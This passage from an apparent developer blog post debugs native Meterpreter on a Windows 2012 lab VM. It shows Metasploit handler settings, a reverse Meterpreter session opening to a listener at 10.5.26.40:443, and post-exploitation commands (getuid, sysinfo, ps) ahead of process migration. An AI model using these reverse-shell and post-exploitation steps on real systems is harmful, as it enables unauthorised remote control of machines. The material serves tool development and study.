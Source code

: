        Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique: seh, thread, process, none
       LHOST     10.5.26.40       yes       The listen address
       LPORT     443              yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Wildcard Target

With those settings in place, the exploit was ready to fire:


    msf exploit(handler) > exploit

    [*] Started reverse handler on 10.5.26.40:443 
    [*] Starting the payload handler...

From the Windows 2012 VM I ran the exploit binary and my Metepreter session kicked off:

    [*] Sending stage (951296 bytes) to 10.5.26.30
    [*] Meterpreter session 1 opened (10.5.26.40:443 -> 10.5.26.30:38516) at 2013-09-11 21:55:52 +1000

    meterpreter > getuid
    Server username: WIN-URCAUVPE291\OJ Reeves
    meterpreter > sysinfo
    Computer        : WIN-URCAUVPE291
    OS              : Windows 2012 (Build 9200).
    Architecture    : x64
    System Language : en_US
    Meterpreter     : x64/win64
    meterpreter > 

Before trying the failure case, I wanted to make sure that the known success case worked locally first. I decided to migrate to `explorer.exe` and see if anything changed:


    meterpreter > ps

    Process List
    ============

     PID   PPID  Name                Arch    Session     User                       Path
     ---   ----  ----                ----    -------     ----                       ----
     0     0     [System Process]            4294967295                             
     4     0     System                      4294967295                             
     444   4     smss.exe                    4294967295                             
     484   708   svchost.exe                 4294967295                             
     536   524   csrss.exe                   4294967295                             
     604   596   csrss.exe                   4294967295                             
     612   524   wininit.exe                 4294967295                             
     640   596   winlogon.exe                4294967295                             
     692   720   explorer.exe        x86_64  1           WIN-URCAUVPE291\OJ Reeves  C:\Windows\Explorer.EXE
     708   612   services.exe                4294967295                             
     716   612   lsass.exe                   4294967295                             
     804   708   svchost.exe                 4294967295                             
     816   708   svchost.exe                 4294967295                             


  [met_native]: https://github.com/rapid7/meterpreter "Native Meterpreter"
  [Metasploit framework]: http://www.metasploit.com/ "Metasploit Framework"
  [penetration test]: http://en.wikipedia.org/wiki/Penetration_test "Penetration Testing"
  [msf_source]: https://github.com/rapid7/metasploit-framework/ "Metasploit Framework Source"
  [Rapid7]: http://www.rapid7.com/ "Rapid 7"
  [r7_blog]: https://community.rapid7.com/community/metasploit/blog/2013/09/05/weekly-update "Weekly Update: Meterpreter Updates, VMWare, the OSX spycam, Retabbing, and more!"
  [rdi_paper]: http://www.harmonysecurity.com/files/HS-P005_ReflectiveDllInjection.pdf "Reflective DLL Injection"
  [Harmony Security]: http://harmonysecurity.com/ "Harmony Security"
  [Stephen Fewer]: http://twitter.com/stephenfewer
  [DllMain]: http://msdn.microsoft.com/en-us/library/windows/desktop/ms682583(v=vs.85).aspx "DllMain Entry Point"
  [msfpayload]: http://www.offensive-security.com/metasploit-unleashed/Msfpayload "msfpayload"
  [Backtrack]: http://www.backtrack-linux.org/ "Backtrack Linux"
  [DebugView]: http://technet.microsoft.com/en-au/sysinternals/bb896647.aspx "DebugView"
  [Windbg]: http://en.wikipedia.org/wiki/WinDbg "Windbg"
  [dbg_tools]: http://msdn.microsoft.com/en-us/windows/hardware/gg463009.aspx "Debugging Tools for Windows"
  [OutputDebugString]: http://msdn.microsoft.com/en-us/library/windows/apps/aa363362(v=vs.85).aspx "OutputDebugString function"
  [DWORD]: http://msdn.microsoft.com/en-us/library/cc230318.aspx "DWORD"
  [ULONG_PTR]: http://msdn.microsoft.com/en-us/library/cc230394.aspx "ULONG_PTR"
  [ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization "Adress Space Layout Randomisation"
  [sf_pr]: https://github.com/rapid7/meterpreter/pull/14